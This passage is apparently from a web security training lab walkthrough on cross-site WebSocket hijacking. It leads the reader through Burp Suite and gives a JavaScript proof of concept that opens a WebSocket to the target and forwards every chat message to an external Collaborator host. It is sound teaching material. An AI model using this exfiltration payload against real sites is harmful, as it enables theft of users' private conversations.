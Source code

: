 Whether you're testing someone else's website or trying to secure your own, it's essential to keep in mind that a request can still be same-site even if it's issued cross-origin.

Make sure you thoroughly audit all of the available attack surface, including any sibling domains. In particular, vulnerabilities that enable you to elicit an arbitrary secondary request, such as XSS, can compromise site-based defenses completely, exposing all of the site's domains to cross-site attacks.

In addition to classic CSRF, don't forget that if the target website supports WebSockets, this functionality might be vulnerable to cross-site WebSocket hijacking (CSWSH), which is essentially just a CSRF attack targeting a WebSocket handshake. For more details, see our topic on WebSocket vulnerabilities.
##### Study the live chat feature

1. In Burp's browser, go to the live chat feature and send a few messages.

2. In Burp, go to the **Proxy > HTTP history** tab and find the WebSocket handshake request. This should be the most recent `GET /chat` request.

3. Notice that this doesn't contain any unpredictable tokens, so may be vulnerable to CSWSH if you can bypass any SameSite cookie restrictions.

4. In the browser, refresh the live chat page.

5. In Burp, go to the **Proxy > WebSockets history** tab. Notice that when you refresh the page, the browser sends a `READY` message to the server. This causes the server to respond with the entire chat history.


##### Confirm the CSWSH vulnerability

1. In Burp, go to the **Collaborator** tab and click **Copy to clipboard**. A new Collaborator payload is saved to your clipboard.

2. In the browser, go to the exploit server and use the following template to create a script for a CSWSH proof of concept:

```javascript 
<script> 
var ws = new WebSocket('wss://YOUR-LAB-ID.web-security-academy.net/chat'); 
ws.onopen = function() { 
    ws.send("READY"); 
}; 
ws.onmessage = function(event) { 
    fetch('https://YOUR-COLLABORATOR-PAYLOAD.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data}); 
}; 
</script>
```

3. Store and view the exploit yourself

4. In Burp, go back to the **Collaborator** tab and click **Poll now**. Observe that you have received an HTTP interaction, which indicates that you've opened a new live chat connection with the target site.

5. Notice that although you've confirmed the CSWSH vulnerability, you've only exfiltrated the chat history for a brand new session, which isn't particularly useful.
